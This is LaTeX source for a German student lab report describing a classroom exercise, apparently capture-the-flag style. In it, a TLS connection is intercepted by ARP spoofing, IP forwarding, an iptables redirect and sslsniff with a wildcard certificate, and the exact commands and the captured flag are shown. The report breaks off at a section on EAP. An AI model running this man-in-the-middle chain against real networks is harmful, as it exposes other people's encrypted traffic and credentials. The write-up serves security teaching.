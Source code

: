 \documentclass[10pt,a4paper]{article}
\author{Christoph Robbert 6577945, Peter Stilow 6500440}
\title{Protokoll 6}
\begin{document}
\maketitle
 
\section*{Aufgabe 1}

\subsection*{a)}
Ein Mitschnitt mittels Wireshark auf den Workstations zeigte, dass sich auf den Workstations mit den IPs \texttt{192.26.175.11} und \texttt{192.26.175.13} ein Prozess mittels TLSv1.1 mit der IP \texttt{192.26.175.15} verbindet. Um diese Verbindung mitzuschneiden änderten wir auf der Workstation mittels 
\begin{verbatim}
arp -s 192.26.175.15 52:54:00:2c:4f:ec
\end{verbatim}
Den ARP Eintrag für die IP \texttt{192.26.175.15} auf die MAC Adresse der Kali VM auf derselben Workstation.
In der Kali VM starten wir das Tool sslsniff.
Um dieses Tool verwenden zu können, mussten wir in der Kali VM mittels
\begin{verbatim}
echo 1 > /proc/sys/net/ipv4/ip_forward
\end{verbatim} 
Das IP forwarding einschalten. Außerdem haben wir wie in der \texttt{man-page} von \texttt{sslsniff} beschrieben die Regel für IP Tables umgeschrieben, sodass alle Zugriffe auf den Port 443 auf den Port 4433 umgeleitet werden.
\begin{verbatim}
iptables -t nat -A PREROUTING -p tcp --destination-port 443  -j REDIRECT --to-ports 4433
\end{verbatim}
Danach starteten wir sslsniff mit den folgenden Parametern:
\begin{verbatim}
sslsniff  -a  -c  /usr/share/sslsniff/certs/wildcard  -s 4433 -w /tmp/sslsniff.log
\end{verbatim}
Nach kurzer Zeit fanden wir die folgenden Zeilen in der Logdatei \texttt{sslsniff.log}:
\begin{verbatim}
Hallo bernd!
Hier ist deine Flagge: 1107174691af9ff3681d2b5bdb5740b1589bae53
\end{verbatim}
Die Flagge lautet also \texttt{1107174691af9ff3681d2b5bdb5740b1589bae53}


\subsection*{b)}

\section*{Aufgabe 2}
Da das EAP Protokoll nicht verschlüsselt ist, kann man aus den vier mitgeschnittenen
\end{document}
